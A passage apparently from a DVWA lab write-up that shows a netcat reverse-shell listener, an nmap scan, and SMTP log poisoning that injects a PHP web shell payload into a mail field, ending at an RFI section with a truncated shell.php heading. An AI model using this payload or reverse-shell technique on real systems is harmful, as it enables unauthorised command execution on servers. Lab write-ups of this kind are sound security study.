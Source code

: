 ```
reverse shell

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.105] from (UNKNOWN) [192.168.0.105] 59934
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

------

### Log poisoning smtp


```
❯ nmap localhost
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-21 13:15 -05
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000049s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 996 closed ports
PORT     STATE SERVICE
25/tcp   open  smtp
80/tcp   open  http
3306/tcp open  mysql
8080/tcp open  http-proxy
```


Smtp poisoning

```
❯ nc localhost 25                                   
220 mail.debiantano.lab ESMTP Postfix (Debian/GNU)  
MAIL FROM:<test@test.com>                           
250 2.1.0 Ok                                        
RCPT TO:<?php system($_GET['cmd']); ?>              
501 5.1.3 Bad recipient address syntax              
```

Obtain shell.

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.105] from (UNKNOWN) [192.168.0.105] 48940
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## RFI

![rfi](/assets/imgs/dvwa2/rfi.png)

![phpinfo](/assets/imgs/dvwa2/phpinfo.png)

![shell](/assets/imgs/dvwa2/shell.png)

### shell.php
<?php

```